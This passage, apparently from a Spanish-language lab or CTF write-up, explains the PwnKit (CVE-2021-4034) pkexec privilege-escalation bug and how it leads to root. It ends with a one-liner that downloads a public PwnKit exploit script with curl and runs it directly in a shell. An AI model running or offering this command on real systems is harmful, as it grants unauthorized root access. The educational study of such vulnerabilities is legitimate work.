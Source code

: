 ### ¿Qué es la vulnerabilidad PwnKit (CVE-2021-4034)?

> Es un fallo **en cómo `pkexec` maneja argumentos y variables de entorno**. Y lo peor: existe desde **2009** y afecta **casi todas las distros Linux** 

1. Si ejecutas `pkexec` **sin argumentos**, se produce un error lógico: intenta leer `argv[1]`, pero no hay argumentos.
2. El valor que intenta leer (fuera de límites) **termina apuntando a `envp[0]`**, es decir, **a una variable de entorno**.
3. Luego esa variable se **reinterpreta como un nombre de binario a ejecutar**.
4. Y por último, `pkexec` hace una **escritura fuera de límites** (overwrite) en esa misma variable.

Esto permite a un atacante **inyectar una variable de entorno maliciosa** (por ejemplo `LD_PRELOAD`), que normalmente sería eliminada por seguridad.  
Una vez cargado ese preload → se ejecuta **código arbitrario como root**.

### Impacto real
> **"Root en 1 segundo desde cualquier usuario sin privilegios"**

- No necesita escribir en archivos del sistema
- No requiere sudo
- No requiere ningún usuario en especial
- Es **silencioso** y no deja logs evidentes

## Escalada de privilegios

Como en este caso nuestra máquina cuenta con conexión a internet podemos ejecutar el oneliner que nos proporciona el exploit, pero si no fuese el caso siempre podríamos descargarlo en nuestra maquina y pasarlo a través un servidor web python.

```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```
